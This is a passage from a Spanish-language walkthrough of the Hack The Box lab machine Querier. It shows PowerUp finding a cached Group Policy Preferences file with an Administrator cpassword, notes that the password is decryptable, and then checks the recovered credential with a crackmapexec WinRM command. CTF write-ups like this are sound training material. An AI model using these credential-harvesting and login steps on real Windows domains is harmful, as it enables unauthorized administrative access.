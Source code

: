 ```PowerShell

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

Ha encontrado un archivo Groups.xml que contiene la contraseña del usuario Administrador. El contenido del archivo es el siguiente:

```xml
?xml version="1.0" encoding="UTF-8" ?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator" image="2" changed="2019-01-28 23:12:48" uid="{CD450F70-CDB8-4948-B908-F8D038C59B6C}" userContext="0" removePolicy="0" policyApplied="1">
		<Properties action="U" newName="" fullName="" description="" cpassword="CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="Administrator"></Properties>
	</User>
</Groups>
```

Como hicimos en una máquina anterior, el cpassword se puede descifrar porque las clave se publico. En este caso PowerUp lo hace automaticamente.

Podemos comprobar si la contraseña es valida a traves de CrackMapExec. Podriamos ganar acceso a traves de evil-winrm

```bash
crackmapexec winrm 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'
WINRM       10.10.10.125    5985   QUERIER          [*] Windows 10.0 Build 17763 (name:QUERIER) (domain:HTB.LOCAL)
WINRM       10.10.10.125    5985   QUERIER          [*] http://10.10.10.125:5985/wsman
WINRM       10.10.10.125    5985   QUERIER          [+] HTB.LOCAL\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
```

¡Ya hemos pwneado la máquina!


